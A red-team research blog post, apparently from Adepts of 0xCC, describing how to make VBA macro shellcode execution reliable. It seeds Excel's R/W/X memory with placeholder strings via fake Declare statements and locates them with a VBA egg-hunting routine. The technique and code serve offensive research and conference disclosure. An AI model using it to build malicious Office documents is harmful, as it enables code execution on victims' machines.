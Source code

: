 ```yaml
---
title: "VBA: overwriting R/W/X memory in a reliable way"
date: 2024-07-07 00:00:00 +00:00
modified: 2024-07-07 00:00:00 +00:00
tags: [red team, research, VBA, macros, X-C3LL]
description: Finding a way to reuse R/W/X memory with VBA and how to avoid crashes
image: 
---
```



Dear Fell**owl**ship, today's homily is an addendum to our previous homily "[VBA: having fun with macros, overwritten pointers & R/W/X memory](https://adepts.of0x.cc/vba-hijack-pointers-rwa/)". After writing the previous post our owls met in a parliament to deliberate how to add stability to the technique shown. After a few exchanges of ideas lubricated by the consecrated wine, the solution was found. This solution was presented to the public during the [EuskalHack VII](https://github.com/X-C3LL/congresos-slides/blob/master/Offensive%20VBA.pdf) conclave.

# Prayers at the foot of the Altar a.k.a. disclaimer
*I am writing this article after EuskalHack VII as an addedum to my previous post on this topic. When I presented this technique on this blog I did not have a reliable way to find a place where to place the shellcode, but weeks after I found a solution. In this short article I describe this solution to make the technique 100% reliable.*

# A quick recap

If you remember our article "[VBA: having fun with macros, overwritten pointers & R/W/X memory](https://adepts.of0x.cc/vba-hijack-pointers-rwa/)" we executed our shellcode by just using a primitive to move memory from point A to point B, so we could overwrite a pointer that would let us hijack the natural program flow and jump to our shellcode. Also we found that VBA is a sinner and does nasty things like this:

```c
1800eec9c  long UpdatePageProtection(void* __ptr64 arg1, unsigned long arg2)

1800eecad      enum WIN32_ERROR var_10 = NO_ERROR
1800eecd3      void var_c
1800eecd3      if (VirtualProtect(lpAddress: arg1, dwSize: zx.q(arg2), flNewProtect: PAGE_EXECUTE_READWRITE, lpflOldProtect: &var_c) == 0)
1800eecd5          enum WIN32_ERROR rax_2 = GetLastError()
1800eece4          enum WIN32_ERROR var_14_1
1800eece4          if (rax_2 s> NO_ERROR)
1800eed02              var_14_1 = zx.d(rax_2.w) | 0x70000 | 0x80000000
1800eecea          else
1800eecea              var_14_1 = rax_2
1800eed0a          var_10 = var_14_1
1800eed17      return var_10
```

This little Eden is eager to be colonised by our shellcode, where it can enjoy a peaceful life. The problem is that in reality it is an illusion: this land is extremely unstable. In general, there are two problems:
1. This memory region is continously being overwritten, so by the moment we jump to it maybe the shellcode was corrupted or totally wiped.
2. This memory region cotains data that is used by Excel, so if we overwrite something useful... it would end in a crash.

# Finding an oasis in the desert

In VBA a **Declare** sentence is only "executed" when the macro calls to that function/sub. This means we can have fake **Declare** for exports that does not exists and it is not going to return any error as long as we do not call that function. For example:
```vb
Private Declare PtrSafe Function ajjj13371337AdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdeptAdept Lib "KERNEL32" () As LongPtr
```

The magic happens when we discover that this string is present in the R/W/X memory region:

<figure>
<img src="/VBA-RWX-ADDENDUM/rwx.png" alt="Attacker controlled string placed at RWX memory"> 
<figcaption>
Attacker controlled string placed at RWX memory
</figcaption>
</figure>

This means that we can use this trick to seed the R/W/X memory region with placeholders (~250 bytes) that can be overwritten with a small loader divided in chunks! To find the placeholders we can add a small "tag" (one different for each placeholder) as prefix and then search for it (classic egg hunting technique).
```vb
Function findEgg() As LongPtr
    Dim mbi As MEMORY_BASIC_INFORMATION
    Dim ret As LongPtr
    Dim dwLenght As LongPtr
    Dim j As Long
    Dim check As Long
    Dim found As Integer
    found = 0
    j = 1
    For i = 0 To 500000
        ret = VirtualQuery(addr, mbi, LenB(mbi))
        If mbi.Protect = 64 Then
		For k = 0 To mbi.RegionSize - 4 Step 1
                Call CopyMemory(VarPtr(check), mbi.BaseAddress + k, 4)
                If check = 926102321 Then '1337
                    findEgg = mbi.BaseAddress + k
                    found = 1
                    Exit For
                End If
            Next k
            If found = 1 Then
                Exit For
            End If
        End If
        addr = mbi.BaseAddress + mbi.RegionSize
    Next i
End Function
```

# EoF

We hope you enjoyed this reading! Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).


